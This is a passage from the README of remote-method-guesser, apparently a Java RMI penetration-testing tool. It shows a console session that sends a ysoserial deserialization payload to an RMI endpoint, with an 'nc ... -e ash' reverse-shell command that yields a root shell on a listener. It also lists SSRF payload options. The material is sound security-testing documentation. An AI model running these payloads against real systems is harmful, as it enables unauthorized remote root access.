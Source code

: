 ```console
[qtc@devbox ~]$ rmg serial 172.17.0.2 9010 CommonsCollections6 'nc 172.17.0.1 4444 -e ash' --signature 'String login(java.util.HashMap dummy1)' --bound-name legacy-service
[+] Creating ysoserial payload... done.
[+]
[+] Attempting deserialization attack on RMI endpoint...
[+]
[+] 	Using non primitive argument type java.util.HashMap on position 0
[+] 	Specified method signature is String login(java.util.HashMap dummy1)
[+]
[+] 	Caught ClassNotFoundException during deserialization attack.
[+] 	Server attempted to deserialize dummy class c0ba245a659945bb93a49a3ab4b1e430.
[+] 	Deserialization attack probably worked :)

[qtc@devbox ~]$ nc -vlp 4444
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 172.17.0.2.
Ncat: Connection from 172.17.0.2:35377.
id
uid=0(root) gid=0(root) groups=0(root)
```


### More Features

*remote-method-guesser* includes many features that are not explained within this *README.md* file. Some
of them are listed below:

* Almost all operations can be used with the ``--ssrf`` option to create an *SSRF* payload for the corresponding
  operation.
* If you obtained binary *RMI server* output (e.g. after an *SSRF* attack), you can feed it into *remote-method-guesser*
  by using the ``--ssrf-response`` option. This parses the server output as it was obtained by the specified operation.
* *remote-method-guesser* can be extended by using it's *Plugin System*. Four interfaces (``IPayloadProvider``, ``IResponseHandler``,
  ``IArgumentProvider`` and ``ISocketFactoryProvider``) can be used to adopt *remote-method-guesser* to more complex
  usage scenarios.
* During the ``guess`` action, you can use the ``--create-samples`` option to generate *Java* code that can be used to
  invoke successfully guessed methods.

More information on these features can be found within the [documentation folder](/docs).


### Docker Image

----
